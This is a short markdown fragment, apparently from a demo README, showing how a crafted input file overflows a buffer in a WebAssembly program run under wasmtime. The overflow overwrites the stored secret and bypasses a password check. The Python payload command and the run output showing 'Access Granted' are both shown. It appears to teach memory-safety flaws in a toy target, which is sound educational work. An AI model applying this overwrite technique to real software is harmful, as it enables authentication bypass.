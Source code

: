 ## Overwriting data
1. Create the payload

```
python3 -c 'open("payload.bin", "wb").write(b"hacked!00000" + b"\x00" + b"hacked!00000")'
```

2. Use the payload as the input
```
$ wasmtime run main.wasm < payload.bin

Enter the secret: 
Secret: hacked!00000
Input: hacked!00000
Access Granted to the cool kids area!
```